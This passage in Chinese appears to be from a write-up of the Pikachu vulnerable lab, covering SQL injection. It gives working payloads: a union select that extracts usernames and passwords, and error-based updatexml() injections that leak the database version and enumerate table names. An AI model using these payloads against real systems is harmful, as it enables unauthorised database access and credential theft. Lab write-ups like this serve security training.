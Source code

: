 获取数据，输入：`a'union select username ,password,4 from users#%`

![image](../../../img/渗透/实验/pikachu/34.png)

**select下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.
    - 第一个参数:fiedname是String格式,为表中的字段名.
    - 第二个参数:XPathstring(Xpath格式的字符串).
    - 第三个参数:new_value,String格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为： `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名，输入：`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ，但是反馈回的错误表示只能显示一行，所以采用 limit 来一行一行显示

![image](../../../img/渗透/实验/pikachu/35.png)

输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改limit后面的数字pikachu'limit 0，爆表名

![image](../../../img/渗透/实验/pikachu/36.png)

![image](../../../img/渗透/实验/pikachu/37.png)
